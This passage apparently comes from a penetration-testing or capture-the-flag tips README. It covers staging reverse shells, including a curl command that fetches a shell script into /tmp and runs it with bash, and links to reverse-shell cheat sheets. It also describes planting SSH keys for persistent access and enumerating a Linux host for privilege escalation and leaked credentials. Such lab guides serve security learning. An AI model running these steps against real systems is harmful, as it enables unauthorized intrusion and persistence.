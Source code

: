 - Sometimes a single wordlist isn't going to work try using multiple wordlists!

### Setting up reverse shells:
- Review the technology youre using the execute shell code
- Sometimes sending payloads at once can fail, always try staging the shell
    * `curl http://ip/shell.sh -o /tmp/shell.sh` then `bash /tmp/shell.sh`
- There are many kinds of shells you can summon
    * [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
    * [Reverse Shell Online](https://www.revshells.com/)

### When you recieve your Reverse Shell or SSH Connection:
- Harden the reverse shell
    * `stty raw -echo; fg`
    * *hit enter twice on the shell terminal*
    * `stty -a` to see the rows and cols to then run
    * `stty rows # cols #`
- If you gain a reverse shell as a user with a /home directory add a SSH key to switch to a nicer SSH terminal
    * ssh-keygen *use defaults on prompts*
    * mv the /home/user/.ssh/id_rsa.pub into /home/user/.ssh/authorized\_keys
    * copy the id_rsa into your local pwd and `chmod 600 user_id_rsa.key` this allows you to run `ssh user@ip -i user_id_rsa.key`
- Use [linpeas.sh](https://github.com/peass-ng/PEASS-ng) for enumeration
- Check for vulnerable SUID
- Check sudo privillieges
- Chisel ports to find external apps/sites being ran by higher priv users
- Ligolo for pivoting around networks
- For all files you can run with `sudo` try to see if you can read the content
    * run `file` against the filepath chances are you will be able to read this to try finding vulns
    * cross check strange pieces of source code, they can possibly be exploited for escalating
- Google as much as you can, change the wording if needed to find what you need
- Check the kernel `uname -r` maybe youre lucky and you can use a simple kernel priv esc
- Try to dig into website source code
    * Finding configs can leak out credentials for SSH or databases where credential hashes are stored
- It sounds stupid but check the environment vars for bread-crumbs: `env`
- Try to enter other users home directories, some users you shell in as may be able to view places you don't expect
- Check around nearby directories, it is easy to deer vision one when the data you seek is right behind you
- View for hidden files or directories `ls -a` hidden items start with a `.`, such as `.ssh` like shown above!
- Don't be shy, attempt to edit files if youre in either a harden shell or SSH connection, maybe you'll get lucky!

## Windows
Windows is an evil OS, it's full of crud that makes hacking it a pain, don't fret too much if you struggle.<br>
Windows has a lot of direction it can go, Active Directory, LDAP, SMB, Web, etc.<br>
